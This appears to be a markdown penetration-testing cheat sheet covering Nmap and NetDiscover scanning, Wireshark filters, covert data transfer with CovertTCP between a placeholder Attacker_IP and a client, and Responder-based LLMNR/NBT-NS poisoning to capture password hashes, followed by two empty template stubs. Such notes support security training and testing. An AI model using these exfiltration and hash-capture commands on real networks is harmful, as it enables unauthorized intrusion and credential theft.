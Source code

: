 # Network Hacking

<details>
<summary>Nmap</summary>

## Nmap

* Scan for a live host

```console
nmap -sP <TARGET>
nmap -sn <TARGET>
```

* Scan for open ports

```console
nmap -p --open <port> <TARGET>
```

* OS Detection

```console
nmap -p --open <port> <TARGET>
```

* Comprehensive scan.

```console
nmap -p- --open -vv -Pn <TARGET>
```
</details>

<details>
<summary>Nmap Scripts</summary>

## Nmap Scripts

* LDAP Enumeration.

```console
nmap -p 389 --script ldap-search <TARGET>
```
</details>

<details>
<summary>NetDiscover</summary>

## NetDiscover

* Perform an ARP scan across the entire network to identify live hosts.

```console
netdiscover -i eth0
netdiscover -r <TARGET>
```
</details>

<details>
<summary>Wireshark</summary>

## Wireshark

* Wireshark offers the capability to reconstruct a stream of plain text protocol packets into a format that is easily readable by humans

```shell
select_packet > follow > TCP Stream
```

* Filter by an specific HTTP Method

```shell
http.request.method == POST
http.request.method == GET
```

* Trace a DOS/DDOS attack

```shell
# Sort by packets in IPv4 based on number of the packets transfer
Statistics > Conversations > IPv4 > Packets
```
</details>

<details>
<summary>CovertTCP</summary>

## CovertTCP

CovertTCP conceals transmission of data inside the IP header.
* [Covert_TCP](Covert_TCP.c) 

This can be used to analyze .cap files. It traverses through each line in Wireshark, targeting the identification field. Keep an eye on Hex value and ANSI value. Downlaod and compile it.

```console
# Compiling Covert_TCP.c
cc -o covert_tcp covert_tcp.c
```

Now, specify the reciever machine (Client_IP). 

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
```

Specifying the attacker machine (Attacker_IP). Create the message file that will be need to be transfered (ex. secret.txt)

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
```
The secret message is sent using Covert_TCP nad it is then captured using Wireshark.

</details>

<details>
<summary>LLMNR/NBT-NS Poisoning</summary>

## LLMNR/NBT-NS Poisoning

The tool [Responder](https://github.com/lgandx/Responder)  servers as a rogue authentication server to capture hashes. Utilizing this method, one could obtain the password of a logged-in user who is attempting to access an unavailable shared resource.

```console
# where -I = interface
responder -I eth0
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>
